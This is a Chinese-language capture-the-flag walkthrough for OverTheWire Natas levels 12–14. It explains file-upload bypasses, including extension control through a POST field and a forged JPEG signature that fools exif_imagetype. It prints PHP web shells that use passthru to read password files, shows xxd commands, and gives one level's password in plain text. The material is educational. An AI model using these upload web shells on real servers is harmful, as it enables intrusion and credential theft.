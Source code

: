 ```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {}
?>

```

注意到成功上传后会给链接，所以可以写一个php文件上传:

```php
<?php
passthru("cat /etc/natas_webpass/natas13")
?>
```

文件名是随机字符串，但是文件扩展名是由POST中filename字段决定的。如果文件扩展名不是php，即使点击链接服务器也不会把代码给php解释器执行。

点击上传成功后的链接，服务器执行代码输出natas13的密码。

## level 13 to 14

natas14: qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP

`only accept image files!`

比较源代码（diff/vimdiff/git diff都行）

问题出在[exif_imagetype](https://www.php.net/manual/en/function.exif-imagetype.php)上，它会查文件签名。

思路还是上传php代码执行，但是要考虑更改文件签名骗过exif_imagetype函数。

不用担心修改hexdump文件后，导致代码无法执行，因为php解释器是找到`<?php`后开始执行，直到`?>`结束。只要php代码块是完整的就行。

get-key.php:

```php
// sldjfsd;fk
<?php

passthru("cat /etc/natas_webpass/natas14")

?>
```

16进制转存储为dump文件：`xxd get-key.php dump`

修改前4个字节为[jpg的文件签名](https://en.wikipedia.org/wiki/List_of_file_signatures)，转存回二进制文件：`xxd -r dump modified`
